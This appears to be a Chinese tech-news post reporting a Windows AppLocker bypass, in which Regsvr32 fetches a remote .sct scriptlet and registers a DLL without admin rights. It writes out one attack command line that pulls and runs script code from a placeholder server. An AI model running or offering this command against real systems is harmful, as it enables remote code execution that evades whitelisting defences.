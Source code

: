 ```yaml
---
layout: post
title: Windows AppLocker被绕过：攻击者可不提权联网注入DLL
categories:
- 今日头条
tags:
---
```

				![](http://p3.pstatp.com/large/5230000951b1ffb085a)

Regsvr32则是一款可被安装工具（或批处理脚本）使用，以便快速注册动态链接库的脚本工具。

照理说，微软既然把这款“中性”而又危险的工具留在系统中，就应该管好它不被管理员之外的人所滥用。但遗憾的是，我们几乎不可能检测到这种类型的攻击。

据安全研究人员Casey Smith所述，当攻击者在某台受感染的工作站上立足之后，就可以滥用Regsvr32、通过网络下载一个COM脚本程序（.sct文件），然后在本地机器上注册一个DLL。

更糟糕的是，攻击者甚至无需取得管理员权限。Regsvr32可借助代理和TLS连接、重定向等功能，并且它拥有微软自家的证书，所以可以执行任何看似正常的背景活动命令。

下面是标准的Regsvr32参数、以及而已命令的对比：

▪ regsvr32 [/u] [/s] [/n] [/i[:cmdline]] dllname▪ regsvr32 /s /n /u /i:http://server/file.sct scrobj.dll

Smith还指出，“regsvr32能够接收的脚本网址没有很好的记录，要触发这一‘旁路’，可以把内置VB和JS元素的代码块放进去”。

在进一步的测试中，研究人员还在GitHub上放出了系统管理员能够下载的“概念验证脚本”（通过Regsvr32并打开一个后门、或者基于HTTP的反向shell）。

从理论上来说，这种类型的“漏洞”允许攻击者访问注册所有DLL，然后在被感染的计算机上执行恶意代码，更别说管理员权限了。

[编译自：Soft Pedia]